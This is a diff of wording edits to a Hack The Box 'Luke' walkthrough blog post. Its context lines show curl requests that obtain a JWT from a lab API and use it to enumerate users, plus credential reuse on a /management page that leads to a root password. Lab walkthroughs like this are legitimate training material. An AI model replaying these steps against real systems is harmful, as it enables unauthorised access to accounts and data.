

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-09-14-Hackthebox-Luke-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 5207 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
modify some lines

```diff
--- a/_posts/2019-09-14-Hackthebox-Luke-Walkthrough.md
+++ b/_posts/2019-09-14-Hackthebox-Luke-Walkthrough.md
@@ -64,6 +64,7 @@ Password:
 230 Login successful.
 Remote system type is UNIX.
 Using binary mode to transfer files.
+
 ftp> dir
 200 PORT command successful. Consider using PASV.
 150 Here comes the directory listing.
@@ -197,7 +198,7 @@ root@kali:~# curl -X POST http://10.10.10.137:3000/login -d 'username=admin&pass
 {"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg"}
 {% endhighlight %}
 
-We can access to other path like following.
+We can access to other path with the JSON token achieved.
 {% highlight shell %}
 root@kali:~# curl http://10.10.10.137:3000 -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg'
 
@@ -234,7 +235,7 @@ root@kali:~# curl -s http://10.10.10.137:3000/users -H 'Authorization: Bearer ey
 ]
 {% endhighlight %}
 
-We can put a username to the path and get additional information.
+We can put a username to the path and get additional information of user "Admin".
 {% highlight shell %}
 root@kali:~# curl -s http://10.10.10.137:3000/users/Admin -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
 {
@@ -270,7 +271,7 @@ We have several URLs which we can try these creds on.
 2. http://10.10.10.137/management (Basic AUTH)
 3. http://10.10.10.137:8000 (Ajenti login console)
 
-By trying creds for Derry on /management, we can go to the page which we have some sensitive files.
+By trying creds for "Derry" on /management, we can go to the page which we have some sensitive files.
 ![placeholder](https://inar1.github.io/public/images/2019-09-14/2019-09-14-19-48-59.png)
 
 In config.json, we can find a password for user "root".
```
